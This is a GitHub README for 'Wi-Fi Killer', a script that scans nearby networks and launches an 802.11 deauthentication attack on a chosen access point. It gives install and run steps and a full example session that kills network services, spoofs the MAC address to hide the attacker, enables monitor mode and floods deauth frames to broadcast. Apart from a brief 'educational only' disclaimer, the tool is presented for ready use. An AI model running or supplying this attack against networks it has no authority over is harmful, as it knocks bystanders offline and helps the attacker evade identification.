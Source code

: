 # 🚀 Wi-Fi Killer - Deauthentication Script

## ⚡ What is it?

Wi-Fi Killer is a simple tool that lets you perform a **deauthentication attack** on Wi-Fi networks. 🛠️ It sends packets to disconnect devices from a target network (BSSID). Only use it on networks you own or have explicit permission to attack! 🚨

💥 **Warning**: This script is for **educational purposes only**! Misusing it could get you in legal trouble. 🏴‍☠️

---

## 🛠️ Features

- 🏙️ **Scan networks** and see their details (SSID, BSSID, channel, etc.)
- 💣 **Deauth attack**: Disconnect devices from a selected Wi-Fi network
- 🕵️‍♂️ **Anonymize your MAC** address for privacy
- 🔄 **Change channels** to target specific networks more easily
- 🚫 **Stop NetworkManager** to prevent automatic mode-switching

---

## 🔥 Requirements

Before you can use this script, you'll need to install some tools:

- aircrack-ng 🔐
- macchanger 🛡️
- iw 📡
- libncurses5-dev 🎮
- libpcap-dev 🕹️
- Python 3 + pip 🐍

You'll also need to install the `tabulate` library:

```bash
pip3 install tabulate
```
Get it up and running in just a few steps! 🎉

Clone the repo:
```bash
git clone https://github.com/thisudo/wifi-Deauthentication-script
cd wifi-Deauthentication-script
sudo bash install.sh
```
This will set up all your dependencies:

🏃‍♂️ Usage
Run the script:
```bash
sudo python3 wifi_killer.py
```
Pick your interface (e.g., wlan0).

Scan networks and pick the BSSID of the target you want to attack. 💥

Confirm the channel and start the attack. 💣

Hit Ctrl+C to stop the attack and clean everything up. 🔚

## Exemple on ubuntu
```bash
██╗    ██╗██╗      ███████╗██╗    ██╗  ██╗██╗██╗     ██╗     ███████╗██████╗ 
██║    ██║██║      ██╔════╝██║    ██║ ██╔╝██║██║     ██║     ██╔════╝██╔══██╗
██║ █╗ ██║██║█████╗█████╗  ██║    █████╔╝ ██║██║     ██║     █████╗  ██████╔╝
██║███╗██║██║╚════╝██╔══╝  ██║    ██╔═██╗ ██║██║     ██║     ██╔══╝  ██╔══██╗
╚███╔███╔╝██║      ██║     ██║    ██║  ██╗██║███████╗███████╗███████╗██║  ██║
 ╚══╝╚══╝ ╚═╝      ╚═╝     ╚═╝    ╚═╝  ╚═╝╚═╝╚══════╝╚══════╝╚══════╝╚═╝  ╚═╝
                                                                       by: abdo3Dr 
[!] Wi-Fi Deauthentication Script [!]                
    For educational purposes only!
    Use at your own risk on your own network!
    I am not responsible for any misuse!

**************************************************
[INFO] Scan networks and launch deauth attack.
[WARNING] Only use this on networks you own!
**************************************************
lo        no wireless extensions.

eno1      no wireless extensions.

wlp2s0    IEEE 802.11  ESSID:"<HIDDEN_SSID>"  
          Mode:Managed  Frequency:2.412 GHz  Access Point: <HIDDEN_BSSID>   
          Bit Rate=58.5 Mb/s   Tx-Power=15 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on
          Link Quality=46/70  Signal level=-64 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:97   Missed beacon:0

docker0   no wireless extensions.

[?] Enter your INTERFACE: wlp2s0
+-------------------+----------------------------+---------+-----------------------+------------+
|       BSSID       |            SSID            | Channel | Signal Strength (dBm) | Encryption |
+-------------------+----------------------------+---------+-----------------------+------------+
| <HIDDEN_BSSID>    |        <HIDDEN_SSID_1>      |   48    |          -77          |    Yes     |
| <HIDDEN_BSSID>    |      <HIDDEN_SSID_2>       |   11    |          -57          |    Yes     |
| <HIDDEN_BSSID>    |         <HIDDEN_SSID_3>    |    9    |          -73          |    Yes     |
| <HIDDEN_BSSID>    |    <HIDDEN_SSID_4>         |    3    |          -54          |    Yes     |
| <HIDDEN_BSSID>    |        <HIDDEN_SSID_5>     |    1    |          -65          |    Yes     |
| <HIDDEN_BSSID>    |     <HIDDEN_SSID_6>        |    2    |          -71          |    Yes     |
| <HIDDEN_BSSID>    |    <HIDDEN_SSID_7>         |    6    |          -79          |    Yes     |
| <HIDDEN_BSSID>    |           <HIDDEN_SSID_8>  |    6    |          -79          |    Yes     |
| <HIDDEN_BSSID>    |           <HIDDEN_SSID_9>  |    7    |          -81          |    Yes     |
| <HIDDEN_BSSID>    | <HIDDEN_SSID_10>           |    1    |          -87          |    Yes     |
| <HIDDEN_BSSID>    |           <HIDDEN_SSID_11> |   40    |          -86          |    Yes     |
+-------------------+----------------------------+---------+-----------------------+------------+

 [?] Enter the Wi-Fi BSSID to attack: <HIDDEN_BSSID>
Disconnecting from the AP...
[*] Killing interfering processes...

Killing these processes:

    PID Name
  30183 NetworkManager
  30193 wpa_supplicant
  30839 avahi-daemon
  30842 avahi-daemon

[*] Anonymizing MAC address...
Current MAC:   <HIDDEN_MAC> (unknown)
Permanent MAC: <HIDDEN_MAC> (Intel Corporate)
New MAC:       <HIDDEN_MAC> (unknown)
[+] MAC address anonymized.
[*] Enabling monitor mode on wlp2s0...

Found 2 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
  30858 avahi-daemon
  30860 avahi-daemon

PHY	Interface	Driver		Chipset

phy0	wlp2s0		iwlwifi		Intel Corporation Centrino Advanced-N 6200 (rev 35)
		(monitor mode enabled)

[+] Monitor mode enabled on wlp2s0.
Changing channel to 11...
Sending deauthentication packets to BSSID: <HIDDEN_BSSID>
06:46:28  Waiting for beacon frame (BSSID: <HIDDEN_BSSID>) on channel 11
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
06:46:28  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:28  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:29  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:29  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:30  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:30  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:31  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:31  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:32  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:32  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:32  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:33  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:33  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:34  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:34  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:35  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
```

🏃‍♂️ Usage
Once you’ve finished with the attack, you can return the Wi-Fi card to managed mode by running the following commands:

```bash
sudo airmon-ng stop <interface>
sudo systemctl restart NetworkManager
```
This will stop the monitor mode on your Wi-Fi interface and restart the NetworkManager service to get everything back to normal. 🔄


✍️ Author

thisudo

